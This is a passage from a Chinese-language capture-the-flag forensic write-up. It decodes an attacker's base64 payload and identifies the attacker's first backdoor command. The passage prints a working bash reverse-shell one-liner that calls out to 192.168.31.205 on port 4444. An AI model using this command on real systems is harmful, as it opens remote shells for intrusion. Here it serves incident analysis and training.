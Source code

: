 提取其中的载荷并解码

```plaintext
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzEuMjA1LzQ0NDQgMD4mMQ==

/bin/bash -i >& /dev/tcp/192.168.31.205/4444 0>&1
```

即可得到答案

```flag
flag{192.168.31.205,4444}
```

## 7

> 黑客通过后门反连执行的第一条命令是什么？

定位到反弹 shell 的会话

![img](img/image_20241000-170017.png)

即可确定答案

```flag
flag{ls}
```

## 8
